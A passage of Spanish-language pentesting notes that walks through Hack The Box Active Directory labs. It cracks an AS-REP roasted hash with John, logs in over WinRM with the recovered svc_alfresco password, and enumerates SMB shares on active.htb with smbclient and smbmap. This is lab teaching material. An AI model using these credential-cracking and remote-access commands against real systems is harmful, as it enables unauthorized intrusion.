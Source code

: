 ### Crackear hash de ASREProast

```shell
john --wordlist=<WORDLIST> hash
```

Si todo va bien esto nos crackeara el hash y nos mostrara la contraseña en texto plano, algo asi:

```
s3rvice ($krb5asrep$23$svc_alfresco$HTB.LOCAL)
```

### evil-winrm

Ahora teniendo unas credenciales, probaremos a conectarnos a la maquina mediante `evil-winrm`

```shell
evil-winrm -i <IP_VICTIM> -u 'svc_alfresco' -p 's3rvice'
```

Y vemos que si podremos entrar en este caso, ya que este usuario tiene activado el permiso de poder entrar de forma remota a la maquina.

Y ya seria escalar privilegios....

## Ejemplo 3 (Practica Maquina)

Tirando un `nmap` nos descubrira varios puertos, veremos que estan relacionados con el `Active Directory` y tambien nos descubrira el dominio bajo el que esta sujeto llamado `active.htb`.

Por lo que lo añadiremos a nuestro archivo `hosts` de la siguiente forma:

```shell
nano /etc/hosts

#Dentro del nano
<IP_VICTIM>         active.htb
```

Lo guardamos y probaremos a listar los recursos compartidos de `SMB` con un `NullSesion` ya que hay un puerto `445` activo.

### SMB Enumeracion

```shell
smbclient -L <IP_VICTIM> -N
```

Y podremos listar los recursos compartidos de `SMB`, ahora veremos si nos deja ver los permisos de dichos recursos compartidos sin ninguna contraseña.

```shell
smbmap -H <IP_VICTIM>
```

Y en este caso si nos dejara, por lo que veremos que hay un recurso compartido con estas caracteristicas:

```
Replication           READ ONLY
```
